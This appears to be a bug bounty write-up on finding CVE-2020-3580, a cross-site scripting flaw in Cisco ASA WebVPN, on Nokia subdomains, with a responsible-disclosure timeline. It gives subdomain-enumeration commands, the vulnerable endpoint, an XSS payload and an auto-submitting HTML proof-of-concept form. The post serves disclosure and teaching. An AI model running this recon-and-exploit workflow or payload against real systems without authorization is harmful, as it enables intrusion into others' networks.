 ```yaml
---
title:  "Exploiting Cisco ASA CVE-2020-3580: How I Discovered the Vulnerability on Nokia Subdomains"
layout: post
---
```


Cisco Adaptive Security Appliance (ASA) is a tool used for corporate VPN access, firewall protection, and threat management. However, it is not without its vulnerabilities. One such vulnerability, **<span style="color: #FF4500;">CVE-2020-3580</span>**, was discovered in 2020 and affects the WebVPN portal, allowing attackers to execute cross-site scripting (XSS) attacks that could compromise connected systems.

In this post, I’ll explain how I uncovered this vulnerability on various Nokia subdomains using reconnaissance techniques.

<h1 style="color: #4169E1;">🕵️‍♂️ Reconnaissance:</h1>

The first step in bug bounty hunting or vulnerability research is always reconnaissance. My goal was to map out the Nokia attack surface to find potentially vulnerable assets, and for that, I leveraged several tools and methods.

### <span style="color: #32CD32;">Passive Reconnaissance</span>

I started with passive recon to gather subdomains and IPs associated with Nokia. For this, I used the following tools and techniques:

#### <span style="color: #FF6347;">Subdomain Enumeration</span>

I used tools like **<span style="color: #4682B4;">Sublist3r</span>**, **<span style="color: #4682B4;">Amass</span>**, and **<span style="color: #4682B4;">Subfinder</span>** to gather a large list of Nokia subdomains:

````
subfinder -d nokia.com -o nokia-subdomains.txt amass enum -d nokia.com -o nokia-amass.txt
````

This provided a list of subdomains that are publicly known and might host various services, including VPN portals. After gathering subdomains, I looked for endpoints that were hosting web interfaces. Using tools like httpx, I quickly fingerprinted these subdomains to check for VPN interfaces, login pages, or any Cisco ASA systems.

````
cat nokia-subdomains.txt nokia-amass.txt | sort -u | tee subdomains.txt cat subdomains.txt | httpx -status-code -title -tech-detect -o output.txt
````

Many subdomains returned HTTP 200 with Cisco VPN or WebVPN portals exposed.

## <span style="color: #FF8C00;">Testing for CVE-2020-3580:</span>

To test for the vulnerability, we need to send a POST request to /+CSCOE+/saml/sp/acs?tgname=a with the SAMLResponse parameter set to a payload that triggers the XSS vulnerability. The payload is: "><svg/onload=alert('xss')>



### <span style="color: #8A2BE2;">Steps to Reproduce:</span>
```html
<html>
  <body>
    <script>history.pushState('', '', '/')</script>
    <form action="https://████/+CSCOE+/saml/sp/acs?tgname=a" method="POST">
      <input type="hidden" name="SAMLResponse" value="&quot;&gt;&lt;svg&#47;onload&#61;alert&#40;&apos;XSS&apos;&#41;&gt;" />
      <input type="hidden" name="" value="" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

⚠️ <span style="color: #FF4500;">CVE-2020-3580 on Nokia Subdomains:</span>
I wrote a Bash script to check each of the subdomains for this vulnerability. Many of the subdomains were found to be vulnerable, and I reported them to Nokia through their responsible disclosure policy.

📅 <span style="color: #32CD32;">Disclosure Timelines:</span>
- 17 Aug 2022 — Vulnerability discovered and reported.
- 18 Aug 2022 — Team confirmed receipt of the report.
- 20 Aug 2022 — I earned a spot on their Hall of Fame page.

